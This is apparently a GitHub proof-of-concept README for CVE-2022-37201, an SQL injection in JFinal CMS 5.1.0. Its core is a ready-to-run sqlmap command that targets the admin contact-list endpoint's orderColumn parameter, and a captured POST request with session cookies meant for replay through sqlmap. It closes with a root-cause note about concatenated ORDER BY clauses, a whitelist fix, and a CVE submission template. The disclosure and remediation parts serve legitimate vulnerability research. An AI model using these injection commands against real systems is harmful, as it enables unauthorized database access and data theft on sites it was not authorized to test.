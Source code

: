 # CVE-2022-37201
CVE-2022-37201 POC



# POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/jfinal_cms/admin/contact/list  --thread 8 --batch --smart  --random-agent --data "
form.orderColumn=*&form.orderAsc=&attr.name=%E4%B8%89&totalRecords=2&pageNo=1&pageSize=20&length=10"  --cookie "  your cookie  " --current-db
```

![image-20220730053527316](image-20220730053527316.png)

Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist





# What is more 

my test 

```
POST /jfinal_cms/admin/contact/list HTTP/1.1
Host: 172.30.48.1
Content-Length: 98
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.30.48.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.30.48.1/jfinal_cms/admin/contact/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=BF13B42EDFC3DEC180959D6DF143BD18; Hm_lvt_1040d081eea13b44d84a4af639640d51=1659122360; session_user="wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c="
Connection: close

form.orderColumn=*&form.orderAsc=&attr.name=%E4%B8%89&totalRecords=2&pageNo=1&pageSize=20&length=10
```

run it in sqlmap！！！  use  -r




> [Suggested description]
> JFinal CMS 5.1.0 is vulnerable to SQL Injection.
>
> ------------------------------------------
>
> [Additional Information]
> https://github.com/AgainstTheLight/someEXP_of_jfinal_cms/blob/main/jfinal_cms/sql4.md
>
> ------------------------------------------
>
> [Vulnerability Type]
> SQL Injection
>
> ------------------------------------------
>
> [Vendor of Product]
> the development group
>
> ------------------------------------------
>
> [Affected Product Code Base]
> https://github.com/jflyfox/jfinal_cms - JFinal CMS 5.1.0
>
> ------------------------------------------
>
> [Affected Component]
> These interfaces do not use the same component, nor do they have filters, but each uses its own SQL concatenation method, resulting in SQL injection
>
> ------------------------------------------
>
> [Attack Type]
> Remote
>
> ------------------------------------------
>
> [Impact Code execution]
> true
>
> ------------------------------------------
>
> [Impact Information Disclosure]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> User login is required
>
> ------------------------------------------
>
> [Reference]
> https://github.com/AgainstTheLight/someEXP_of_jfinal_cms/blob/main/jfinal_cms/sql4.md
>
> ------------------------------------------
>
> [Discoverer]
> jw5t





